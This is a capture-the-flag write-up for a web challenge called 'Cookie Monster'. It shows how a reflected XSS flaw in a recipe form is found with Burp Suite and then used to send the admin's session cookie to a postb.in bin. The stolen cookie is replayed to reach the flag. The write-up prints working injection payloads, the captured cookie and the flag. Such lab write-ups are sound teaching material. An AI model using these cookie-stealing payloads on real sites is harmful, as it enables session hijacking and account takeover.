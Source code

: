 # WORK IN PROGRESS

# Cookie Monster
* **Category**: Web Security
* **Points**: 200
* **Challenge**: Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:27734.
* **Hint #1**: If only we could inspect the device's memory while it is running...
* **Hint #2**: You can control the value so select all you want.
* **Hint #3**: If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

<br />

First lets navigate to the challenge in a web browser:
```
http://challenge.acictf.com:27734.
```
![cookiemonster](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/cookie_monster/screenshots/cookiemonster.JPG)

<br />

If we click *more info*, there is a hidden link to *Cookie Admin* under the *Cookie* section.  Trying to navigate to this page gives an HTTP 403 Forbidden error message, so we will need to authenticate as an admin if we want to see the page.

Based on the name of the challenge and some of the hints, we can assume that we are going to [stealing cookies via XSS](https://www.openlearning.com/u/ivanteong/blog/StealingCookiesViaXssUsingPhpOrRequestbin/).  Lets submit a cookie to the cookie monster (random name and ingredients) and [capture the POST request in Burp Suite](https://portswigger.net/burp/documentation/desktop/tools/proxy/getting-started):

<br />

![burp1](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/cookie_monster/screenshots/burp1.JPG)

<br />

There are two parameters potentially vulnerable to XSS, *name* and *ingredients*.  Lets use a simple JavaScript alert to see if the site is vulnerable to Reflected XSS:
```
<script>alert("XSS!")</script>
```

<br /> 

Now place the JavaScript alert in place of one of the ingredients in Burp Suite: 
```
name=Sugar&ingredients=<script>alert("XSS!")</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

<br /> 

Forward the POST request Burp Suite and we get an alert message on the next page:

<br /> 

![alert](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/cookie_monster/screenshots/alert.JPG)

<br /> 

Now that we know the site is vulnerable to XSS, we can use that to obtain the admin session cookie.  When we slected submit cookie for approval we recived another alert message and a statement saying taht the cookie monster is viewing our cookie.  That will be the point where we should get the cookie.

Use postb.in to received the admin cookie from the victims browser.  After selecting *create bin*, use the URL to craft malicious JavaScript: 
```
<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>
```

<br /> 

Inject the malicious Javascript into the POST just like we did with the alert messsage:
and submit the cookie for approval
```
name=Sugar&ingredients=<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

Refresh the PostBin page and you should see the admin cookie:

<br />

![admincookie](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/cookie_monster/screenshots/admincookie.JPG)

<br />

Now that we have the admin cookie 'b4697910-6dbc-4836-851b-a14e7a5bb7d0', we can use this to navigate to the *Cookie Admin* page.  Intercept the GET request in BurpSuite and replace your cookie with the admin cookie:

![burp2](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/cookie_monster/screenshots/burp2.JPG)

<br />

We are presented with a page with a link to *Flag Cookie*.  Click it to get the flag:


<br />

![flagcookie](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/cookie_monster/screenshots/flagcookie.JPG)

<br />

## Flag: ACI{07c3bc112a56b3d9512b6a54148}



